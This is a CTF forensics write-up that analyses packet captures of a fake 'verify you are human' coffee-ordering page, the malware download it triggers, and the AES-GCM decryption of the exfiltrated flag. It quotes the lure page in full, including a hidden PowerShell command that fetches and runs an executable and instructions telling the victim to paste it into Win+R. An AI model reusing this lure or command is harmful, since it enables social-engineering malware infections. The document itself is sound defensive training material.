# Dead Drop Latte - NEXSEC CTF 2026

Solved by `Selina` & `adrianchx`

## Description

A corporate workstation tripped a SOC alert a few minutes after the user trying to order coffee from a website. Turns out it run malicious command after the user trying to order it.
We captured its traffic and pulled the machine before re-imaging it.

## Introduction

Dead Drop Latte is a forensic challenge involving AES-256-GCM encryption and malicious commands that trick users into downloading hypothetical malware. This hypothetical malware supposedly runs and uploads data from the compromised host, our task is to locate the flag (data being uploaded) hidden within thousands of packets and encrypted with AES-256-GCM (while also encoded in base64).

We are given a `capture.pcapng` file.

## The Solve

First, we start by opening the file in `Wireshark`, a software that allows us to view and analyze packets.

Here, there are almost 2000 packets, so scanning all of them individually/manually isn't really possible.



I started by asking Deepseek about the malformed packet and OCSP tags I saw when skimming through, and while it was interesting, it ultimately didn't give much and turned out to be dead ends.

While checking the packets, I found a request to everyyaycoffee.com in packet 328. Since the challenge mentioned a coffee website, I decided to check this request first.

Not knowing how to proceed, I went on Google and ended up finding this [writeup](https://medium.com/@evilattitude345/ctf-challenge-flag-forge-pcap-analysis-43f9dd22ec92). It introduced `Network Miner` as a new tool I've never used before.

> **Network Miner** is a network forensic analysis tool used for packet capturing and extracting artifacts such as images, files, and metadata from network traffic. It helps security analysts in identifying suspicious activities and investigating network intrusions effectively. (Source: the linked writeup)

Opening the `.pcap` (converted from `.pcapng` bc the free ver of Network Miner doesn't support `.pcapng`) we are met with this:



Here, I highlighted `203.0.113.10 [everyyaycoffee.com]` because I remembered that the challenge description mentioned that the user got tricked while trying to order coffee, and here we have an alleged coffee ordering website.

Filtering out the ip, we are left with 10 packets. Most of them are the packets for TCP handshake, but there is one HTTP request packet, and this is what we got:



```html
GET / HTTP/1.1
Host: everyyaycoffee.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Connection: keep-alive


HTTP/1.1 200 OK
Server: nginx
Content-Type: text/html; charset=utf-8
Content-Length: 814
Cache-Control: no-store
Connection: keep-alive

<!doctype html>
<html lang="en"><head><meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>Everyyay Coffee &middot; Order Online</title>
</head><body>
<header class="nav"><a class="brand" href="/">Everyyay Coffee</a></header>
<main><section class="verify">
<h1>Verify you are human to continue</h1>
<p>Our ordering system is protected. To confirm you are human, press
<b>Win + R</b>, paste the verification step below, and press Enter.</p>
<pre id="vstep">powershell -w hidden -nop -c "iwr http://cdn.ns-edge.net/pkg/clientverify.exe -OutFile $env:TEMP\cv.exe; Start-Process $env:TEMP\cv.exe"</pre>
<p class="hint">Ray ID: 8f3ac97b1d &middot; this check completes automatically.</p>
</section></main>
<footer><p>&copy; 2026 Everyyay Coffee.</p></footer>
</body></html>
```

The page asked the user to verify that they were human by pressing `Win + R` and pasting a PowerShell command.

This is a common way hackers get oblivious people to download stuff they aren't supposed to, aka malware, and also happens to align with the challenge description.

The `-w hidden` (-WindowStyle) hides the PowerShell window while `-nop` (-NoProfile) makes PowerShell skip loading the user's profile when starting and bypassing security policies. `-c` tells PowerShell to run the subsequent string as a command which is `iwr http://cdn.ns-edge.net/pkg/clientverify.exe -OutFile $env:TEMP\cv.exe; Start-Process $env:TEMP\cv.exe`.

The command `iwr` invokes web-request and downloads `clientverify.exe` to the user's system and runs it.

This was suspicious because a coffee ordering website should not require users to run PowerShell commands. The page was using a fake verification step to trick the user into running a program, which is a social engineering technique.

Since the command mentioned `cdn.ns-edge.net`, I searched for it in Network Miner and found the ip `198.51.100.9`.



Filtering the ip out, we are left with a similar output as the first filter (TCP handshakes with 2 HTTP packets).



Packet 628 is the direct response to the client asking for the `.exe` file, and when we download it via `File > Export Objects > HTTP...` we can get the actual `clientverify.exe`.



Thinking that the flag would be found in the `.exe`, I decided to try and decompile it using Ghidra. Unfortunately, the flag wasn't found within the `clientverify.exe` and alot of the program is just `00` or `??`.



However, there were some interesting readable strings we found:



Mainly these:

- `cfg.ns-edge.net`
- `key.ns-edge.net`
- `POST /t HTTP/1.0`
- `seal: aes-256-gcm; iv=12; tag=16; aad=brew-v1; wire=b64(iv|ct|tag)`

The `seal:` line gives us the recipe into decrypting the flag, telling us that the flag is encrypted with `AES-256-GCM` with a 12-byte `IV`, a 16-byte `tag` and `brew-v1` as the additional authenticated data. The IV, ciphertext and tag were joined together and then Base64-encoded.



Meanwhile, the domain names and the POST line gave us something to search for next. `POST /t HTTP/1.0` here implies that some data is being sent by `clientverify.exe` to the `/t` endpoint, which is suspicious and could possibly hold the flag.

Thus, I went through the packets looking for the ones with `POST /t HTTP/1.0` on it and found 4 packets.



Here is the data extracted from each of the packets, we save these for later.

```hex
kGOeGGwN88+3xQBNvqNXR/C90TOGIvm48uYuvIPBFHbwlw1BQdIacKSNC8cBsiz7h6YcW627YB35NU5niWUMff6UFYq06eljwOCx4rzBMbrk+y1ePod1gr3dWhW8hwcBlwzwMjv4fmWylvyWtujx4mXLD0L42+8X9YjE6HrPw0TWxAK+7aTf0KTcUMZ+p9h0Q4szfQvpzKGMapy4NygtgyQH

JUMARBlYCGG2jJOgm6bxtMbSox57zqudlyfPHCrgi+oIeNbO5ajoozh9Esbojz4XhMkd69RxlKbvDAIPy9PjTYk5hQsBwpjyDW5Cj+bk+GRf3PoJ+D0p08zkmdLq3HT8xHhn+XONsL33MGHR/D95yv/yQHg8MFSyp3ARKhdpDZEGWWk7JaebTjQ0uv5091PscbNx53wJ4OmicITgZa1JxaQu2IqJkTIJRQ==

c8K2PEXYNBdwO8I8aWiJY1LTYqnZ5tyIi94m3uoDDdDh7M1beDCqmYOFxTNQ5EuQx0BKie7BRYBHWCFtHY9A9iDybBi/e9ts1mpM654TVVWGCZapxXj3nRb2MkCnzOKo7Qdr4m/qpdqzECDIZvayXqJjKtBFS3nIXu4cGR6vJBD8/hCu8egMAV7G92l4L6lcxFVB9OaRgGSPIw6VUqGO9YE67b8btMIRV7gKKNwjv46wg/pNIfblfJ/czGK5ImoHaO1Iu/6B

L7wsw2DzeUJvCLyCwBRUdDxrGRKA9hgLpvWG45F3cE4OGgWi24Pmv57WvtklNBFPVhMxD0wTnS69cDErQ8CfQ5MFzHsjjj+KIjSB1ri8lveuBWN3fchxtg6Ix8a6qYnQTKegtZMrdVutm8RWgDoZ1Ny/gfHZiR/Z384JUJRl1r5zAButAiBUCYDkeYNt5a+1MZbJ7TyXNKsKKg3SnPrATTiKZr4GL7navDco
```

After that, I searched for DNS packets related to the domains found in `clientverify.exe`. The results included TXT queries and responses for cfg.ns-edge.net, sync._cfg.ns-edge.net and key.ns-edge.net.



In the `cfg.ns-edge.net` packets, the payload decodes to an IP address that matches those of the POST packets earlier (the 4 packets containing pontential flags).

As for the `key.ns-edge.net`, the packets contain something like this (compiled from all 6 packets):

```text
v=1;k=3iDg5AXW8wF7nrkxxs2II0imUWgalKIGVqeAnT8sUdI=

v=1;k=2OWd6dhYr2jXv4N6KRKk2WPvCVLfb10OC+MspGxV208=

v=1;k=SUkAx5UOmWnf0yvYa2MSf+EsWWqYdtyatab7Wwvl4cU=

v=1;k=N7i8E2HioESNhUN22xJSrdwGuTewqmTaaTGyQ4xw5cM=

v=1;k=aOokt/BJuKx0ncTqLq7pqDYmOfuUdIftGLLQSDp/Dhg=

v=1;k=bZ8N/+qWBdeONGnJoHgZWpLlmRfMeQiXkQ4cl1L279U=
```

Aside from the domain name itself containing `key`, the `k=` suggests that one of the base64 strings could potentially be the key used for the AES encryption.

Now that we have all the information, we can try decrypting the values from `POST /t` with each of the potential keys.

First, we turn each of the `POST /t` data into hex values from base64, this is for easier counting of the bytes.

```text
90639e186c0df3cfb7c5004dbea35747f0bdd1338622f9b8f2e62ebc83c11476f0970d4141d21a70a48d0bc701b22cfb87a61c5badbb601df9354e6789650c7dfe94158ab4e9e963c0e0b1e2bcc131bae4fb2d5e3e877582bddd5a15bc870701970cf0323bf87e65b296fc96b6e8f1e265cb0f42f8dbef17f588c4e87acfc344d6c402beeda4dfd0a4dc50c67ea7d874438b337d0be9cca18c6a9cb837282d832407

2543004419580861b68c93a09ba6f1b4c6d2a31e7bceab9d9727cf1c2ae08bea0878d6cee5a8e8a3387d12c6e88f3e1784c91debd47194a6ef0c020fcbd3e34d8939850b01c298f20d6e428fe6e4f8645fdcfa09f83d29d3cce499d2eadc74fcc47867f9738db0bdf73061d1fc3f79cafff240783c3054b2a770112a17690d910659693b25a79b4e3434bafe74f753ec71b371e77c09e0e9a27084e065ad49c5a42ed88a8991320945

73c2b63c45d83417703bc23c6968896352d362a9d9e6dc888bde26deea030dd0e1eccd5b7830aa998385c53350e44b90c7404a89eec145804758216d1d8f40f620f26c18bf7bdb6cd66a4ceb9e135555860996a9c578f79d16f63240a7cce2a8ed076be26feaa5dab31020c866f6b25ea2632ad0454b79c85eee1c191eaf2410fcfe10aef1e80c015ec6f769782fa95cc45541f4e69180648f230e9552a18ef5813aedbf1bb4c21157b80a28dc23bf8eb083fa4d21f6e57c9fdccc62b9226a0768ed48bbfe81

2fbc2cc360f379426f08bc82c01454743c6b191280f6180ba6f586e39177704e0e1a05a2db83e6bf9ed6bed92534114f5613310f4c139d2ebd70312b43c09f439305cc7b238e3f8a223481d6b8bc96f7ae0563777dc871b60e88c7c6baa989d04ca7a0b5932b755bad9bc456803a19d4dcbf81f1d9891fd9dfce09509465d6be73001bad0220540980e479836de5afb53196c9ed3c9734ab0a2a0dd29cfac04d388a66be062fb9dabc3728
```

Note that each byte is represented by two hex characters.

To recap the information from the `seal: aes-256-gcm`, we have:

- `iv`: 12 bytes (24 hex)

- `tag`: 16 bytes (32 hex)

- `aad`: "brew-v1"

- the ciphertext itself

So using CyberChef, we can (highlight the characters and look at the character count) take the first 24 hex characters and last 32 hex characters out of the potential flag ciphertext as the `iv` and `tag` respectively, and attempt to decode them using the base64 keys obtained.

This is what a failed attempt looks like:



But basically, it's just trial and error from here on until the correct combination of ciphertext and key is found evenutally and succesfully decodes the flag.



`nexsec26{l3ts_buy_s0me_c0ffee_2_stay_awake}`
